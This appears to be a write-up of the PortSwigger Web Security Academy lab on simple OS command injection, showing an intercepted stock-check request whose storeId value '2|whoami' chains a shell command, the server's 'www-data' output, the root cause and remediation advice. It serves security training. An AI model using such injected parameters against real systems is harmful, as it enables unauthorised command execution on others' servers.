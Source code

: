 # 💻 OS Command Injection — Simple Case

**🧠 Difficulty:** Apprentice
**📚 Platform:** PortSwigger Web Security Academy
**👩‍💻 Author:** Kaouthar Belkebir

---

## 📌 Lab Description

> This lab contains an **OS command injection vulnerability** in the product stock checker.
>
> The application executes a shell command containing **user-supplied product and store IDs**, and returns the **raw output from the command** in its HTTP response.
>
> ✅ **Goal:** Execute the `whoami` command to determine the name of the current user on the server.

---

## 🔍 Vulnerability Summary

The target web app provides a feature to check **stock levels** using two parameters:

* `productId`
* `storeId`

These values are **directly injected into a shell command**, allowing command injection via special characters like `|`.

---

## 🧪 Exploitation Steps

1. Open the stock check page and intercept the request using **Burp Suite**.
2. Modify the request to inject a command into the `storeId` parameter.

---

### 📥 Intercepted Request

```http
POST /product/stock HTTP/2
Host: [LAB_DOMAIN]
Cookie: session=AzKPSTrcJ3Ggw3i8rXP3JFzMDf7ecgXc
Content-Type: application/x-www-form-urlencoded

productId=3&storeId=2|whoami
```

---

### ✅ Result

The server response includes:

```
www-data
```

💥 This confirms **successful OS command execution**. The user running the process is `www-data`.

---

## 🔬 Root Cause

* The server builds a shell command using `productId` and `storeId` **without sanitization**.
* By injecting `|whoami`, the attacker **chains a second command**, executed by the system shell.

---

## 🛡️ Remediation

* ❌ **Don’t use user input in shell commands.**
* ✅ Use safe APIs like `subprocess.run(..., shell=False)` (Python), or equivalents in other languages.
* ✅ Validate and sanitize input. Apply strict allow-listing.

---

## 🧠 Key Takeaway

Even **simple user inputs** like an ID can become dangerous when directly passed to system-level functions.
This lab proves that without input validation, an attacker can easily **take control of system-level execution** using a single parameter injection.

---

## 🖼️ Screenshot

https://github.com/Kabilala/OS-command-injection/blob/main/lab1/lab1.png
-
